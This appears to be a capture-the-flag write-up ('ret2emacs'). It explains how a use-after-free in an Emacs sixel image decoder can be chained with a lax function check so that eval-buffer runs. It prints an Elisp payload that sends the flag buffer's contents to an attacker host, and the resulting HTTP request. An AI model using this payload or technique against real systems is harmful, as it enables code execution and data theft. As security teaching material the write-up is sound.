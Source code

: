 # ret2emacs

`decode_sixel` has a fairly obvious use-after-free vulnerability. If `cache` is
evicted, neither the MD5 hashes nor the pointers are zeroed out. Hence,
inserting an image that was previously in the cache will result in
`decode_sixel` returning a freed chunk. This is the first piece of the puzzle.

The second piece of the puzzle is that `sixplayground-make-overlay` takes as a
parameter 'data-or-function'. If this parameter is a function, it will call it
to compute the image data to be inserted.

`functionp` is quite lax, however. It will consider the symbol pointing at an
interactive function to be a function itself. So if we were to call
`sixplayground-make-overlay` with `'eval-buffer` as a parameter, it would
evaluate the Elisp code in the current buffer (and then crash if the code in the
buffer does not produce a valid image).

The gist of our exploit is to:

1. Exploit the use-after-free to inject `'eval-buffer` into the cache.
2. Ensure the buffer begins with valid Elisp code which will carry out the
   desired payload.
3. Insert the image whose data pointer now points at `'eval-buffer`.

The payload the example solution uses is the following:

```elisp
(save-excursion
 (set-buffer (get-buffer "*flag*"))
 (url-retrieve-synchronously (format "http://attacker.domain/%s" (buffer-string)))
 (buffer-string))

```

Which readily submits the flag to the attacker.

```sh
GET /FLAG_GOES_HERE HTTP/1.1
MIME-Version: 1.0
Connection: keep-alive
Extension: Security/Digest Security/SSL
Host: 10.0.2.2:6666
Accept-encoding: gzip
Accept: */*
User-Agent: URL/Emacs Emacs/27.2.50 (X11; x86_64-pc-linux-gnu)

```
